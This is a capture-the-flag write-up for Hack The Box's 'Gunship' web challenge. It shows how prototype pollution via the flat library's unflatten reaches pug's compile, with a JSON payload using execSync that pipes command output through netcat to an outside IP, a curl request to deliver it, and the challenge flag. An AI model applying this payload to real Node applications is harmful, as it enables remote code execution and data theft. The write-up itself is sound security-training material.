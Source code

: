 > A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world...
> all the wooing in the world to make you feel more lonely...
> this ride ends here, with a tribute page of the British synthwave band called Gunship. :musical_note:

> Authors: **[makelaris][author-profile-1] & [makelarisjr][author-profile-2]**

## Polluting Gunship

Well the website has a single button: it sends a serialized json object
to `/api/submit`:

```javascript
fetch('/api/submit', {
    method: 'POST',
    body: JSON.stringify({
        'artist.name': document.querySelector('input[type=text]').value
    }),
    headers: {'Content-Type': 'application/json'}
})
```

The server then processes the json object with the `flat` library:

```javascript
const { artist } = unflatten(req.body);
```

With this, we can pollute the Object properties! Hacktrick has a [great article][hacktricks]
about prototype pollution.

In this case, we want to modify the `block` attribute which is evaluated when
`pug` calls `compile`:

```javascript
pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
```

So we capture the POST request to `/api/submit` in BurpSuite and add:

```json
{
    "artist.name":"Westaway",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`ls -lah |nc -w 3 172.17.0.1 9876`)"}
}
```

After moving the payload to `waste-away.json`, the query becomes a clean curl command:

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: localhost:1337' \
    -H $'Content-Type: application/json' \
    -H $'Accept-Encoding: gzip, deflate' \
    --data-binary $'@waste-away.json' \
    $'http://localhost:1337/api/submit'
```

The file can be uploaded with Netcat too, through Ngrok for example.

> HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}

[author-profile-1]: https://app.hackthebox.eu/users/107
[author-profile-1]: https://app.hackthebox.eu/users/95
[hacktricks]: https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

